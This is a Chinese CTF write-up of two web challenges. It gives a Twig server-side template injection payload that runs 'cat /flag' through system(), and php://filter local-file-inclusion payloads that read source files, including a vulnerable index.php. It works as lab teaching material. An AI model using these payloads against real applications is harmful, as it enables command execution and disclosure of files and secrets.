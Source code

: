# [BJDCTF2020]Cookie is so stable
登录抓包后发现是ssti：

![](https://img-blog.csdnimg.cn/20210426114704680.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

测试出来是twig
Payload：
```
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("cat /flag")}}
```
Twig payload：

[SSTI（模板注入）漏洞（入门篇）](https://www.cnblogs.com/bmjoker/p/13508538.html)

---
# *[BSidesCF 2020]Had a bad day
这才是猛男该看的：

![](https://img-blog.csdnimg.cn/20210426114824636.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

注意到url 可能存在包含直接包含index.php:

![](https://img-blog.csdnimg.cn/20210426114925444.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
需要woofers或者meowers

再试试：=woofers;index.php

出现报错：


>Warning: include(/var/www/html/index.php.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 37

>Warning: include(): Failed opening '/var/www/html/index.php.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 37

知道自动在后面添加.php

直接伪协议读取：
```
php://filter/read=convert.base64-encode/resource=index
```

index.php:

```php
<?php
	$file = $_GET['category'];

    if(isset($file))
{
	if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
	include ($file . '.php');
}
else{
	echo "Sorry, we currently only support woofers and meowers.";
	}
}	
?>
```
可以这样写：php://filter伪协议可以套一层协议
```
php://filter/read=convert.base64-encode/woofers/resource=flag
```
